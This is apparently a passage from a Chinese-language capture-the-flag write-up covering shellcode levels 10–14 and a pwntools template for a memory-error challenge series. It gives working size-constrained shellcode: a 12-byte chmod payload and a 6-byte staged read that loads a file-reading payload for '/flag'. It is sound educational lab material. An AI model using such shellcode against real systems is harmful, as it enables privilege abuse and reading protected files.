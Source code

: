### 10-12

payload 和 8 相同，因为 8 的 payload 恰好可以满足这几题的条件。

### 13

只能读 0xc 字节，需要进一步压缩 8 的 payload。容易注意到 `mov bx, 0x61` 和 `push rbx` 可以合并为 `push 0x61`，恰好 12 字节。

```python
# chmod("a", 4)
sc = """
mov al, 0x5a  # chmod
push 0x61     # "a"
mov rdi, rsp  # rdi -> "a" on stack
mov sil, 4    # 4 -> 000 000 100
syscall
"""
p.send(asm(sc))
```

### 14

只能读 6 字节。注意到 rax 原本就是 0，可以省略对其的初始化；gdb 中能看到 rdx 中原本存储了 shellcode 的地址，因此我们可以直接写入这个地址；rsi 中原本存储了一个较大的数字，我们可以直接用来作为 `read` 的第三个参数。综上，要做的只有给 rdi 赋值 0、将 rdx 的值赋值给 rsi、调用 syscall 三件事，每件事都可以压缩到 2 个字节。

```python
# read(0, address of shellcode, some big number)
sc1 = """
xor edi, edi
push rdx
pop rsi
syscall
"""
# orw
sc2 = shellcraft.readfile("/flag", 1)

p.send(asm(sc1))
p.send(nop*16 + asm(sc2))
```

## babymem: Memory Errors

模版：

```python
from pwn import *

sa = lambda delim,data: p.sendafter(delim,data)
sla = lambda delim,data: p.sendlineafter(delim,str(data))
r = lambda num=4096: p.recv(num)
ru = lambda delims,drop=True: p.recvuntil(delims,drop)
leak = lambda name,addr: log.success('{} = {:#x}'.format(name, addr))

def s(pl, sz=None):
    if sz is None:
        sz = len(pl)
    sla('Payload size: ', str(sz))
    sa('bytes)!\n', pl)

binary = f'/challenge/{os.getenv("HOSTNAME")}'
context.binary = binary
# context.log_level = 'DEBUG'
p = process(binary)

nop = b'\x90'
# TODO
```